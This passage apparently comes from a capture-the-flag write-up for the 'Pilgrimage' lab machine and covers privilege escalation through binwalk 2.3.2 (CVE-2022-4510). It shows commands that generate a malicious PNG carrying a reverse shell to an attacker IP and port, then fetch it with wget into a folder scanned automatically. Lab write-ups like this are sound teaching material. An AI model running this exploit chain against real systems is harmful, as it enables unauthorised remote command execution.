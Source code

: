 This process is checking the upload images (new files in the shrunk folder) for malware. For that process it is using the binary `/usr/local/bin/binwalk`

```bash
emily@pilgrimage:/usr/local/bin$ ./binwalk -h

Binwalk v2.3.2
Craig Heffner, ReFirmLabs
https://github.com/ReFirmLabs/binwalk

Usage: binwalk [OPTIONS] [FILE1] [FILE2] [FILE3] ...

Signature Scan Options:
    -B, --signature              Scan target file(s) for common file signatures
    -R, --raw=<str>              Scan target file(s) for the specified sequence [SNIP]    
```

The binary is the app Binwalk v2.3.2 and googling it we found **[this exploit](https://www.exploit-db.com/exploits/51249)**. For this exploit we just introduce a image to process, indicate a IP and Port to get a reverse connection, and it will generate a malicious png file which will get a reverse shell after processing it with binwalk

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Pilgrimage-10.10.11.219]
└─$ python3 51249 CVE-2022-44268/image.png 10.10.14.14 1234 

################################################
------------------CVE-2022-4510----------------
################################################
--------Binwalk Remote Command Execution--------
------Binwalk 2.1.2b through 2.3.2 included-----
------------------------------------------------
################################################
----------Exploit by: Etienne Lacoche-----------
---------Contact Twitter: @electr0sm0g----------
------------------Discovered by:----------------
---------Q. Kaiser, ONEKEY Research Lab---------
---------Exploit tested on debian 11------------
################################################


You can now rename and share binwalk_exploit and start your local netcat listener.
                                                                            
┌──(kali㉿kali)-[~/Documents/Boxes/Pilgrimage-10.10.11.219]
└─$ ls
51249  binwalk_exploit.png  CVE-2022-44268  git  nmap
```

Upload the generated png file to the server and process it with binwalk (it will process automatically while inserted in the shrunk folder, as we saw in the process)

```bash
emily@pilgrimage:/usr/local/bin$ cd /var/www/pilgrimage.htb/shrunk/
emily@pilgrimage:/var/www/pilgrimage.htb/shrunk$ wget http://10.10.14.14/binwalk_exploit.png
--2023-08-14 02:20:05--  http://10.10.14.14/binwalk_exploit.png
Connecting to 10.10.14.14:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2341 (2.3K) [image/png]
Saving to: ‘binwalk_exploit.png’

binwalk_exploit.png 100%[================>]   2.29K  --.-KB/s    in 0.002s  

2023-08-14 02:20:05 (1.07 MB/s) - ‘binwalk_exploit.png’ saved [2341/2341]

-----------------------------

┌──(kali㉿kali)-[~/Documents/Boxes/Pilgrimage-10.10.11.219]
```